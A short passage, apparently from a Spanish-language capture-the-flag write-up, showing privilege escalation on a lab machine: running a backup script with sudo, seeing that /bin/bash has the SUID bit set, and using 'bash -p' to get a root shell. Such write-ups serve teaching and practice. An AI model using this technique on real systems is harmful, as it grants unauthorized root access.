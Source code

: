 
Acción: 

```bash 
sudo /opt/scripts/access_backup.sh  # si falla probar `sudo -u root /opt/scripts/access_backup.sh`
ls -ls /bin/bash   # listamos los permisos de bash y vemos que tiene SUID
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
bash -p  # con esto nos lanzaríamos una bash como root y ya estaría resuelta la máquina
```


---

